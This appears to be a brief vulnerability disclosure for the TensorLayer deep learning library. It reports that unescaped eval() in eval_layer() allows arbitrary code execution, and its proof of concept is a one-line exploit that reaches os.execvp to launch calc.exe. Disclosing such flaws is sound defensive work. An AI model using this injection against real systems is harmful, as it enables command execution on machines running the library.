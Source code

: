# Description

`TensorLayer` is a novel TensorFlow-based deep learning and reinforcement learning library designed for researchers and engineers. It provides an extensive collection of customizable neural layers to build advanced AI models quickly. This package is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Use of `eval()` in `eval_layer()` function without escaping causes execution of system commands

# Proof of Concept

Installation
```bash
pip install tensorflow
pip install tensorlayer
```

Run exploit.py
```python
from tensorlayer.files.utils import eval_layer

eval_layer({'class': 'utils.np.os.execvp', 'args': {'layer_type': 'normal', 'file': 'calc.exe', 'args': ['0']}})
```

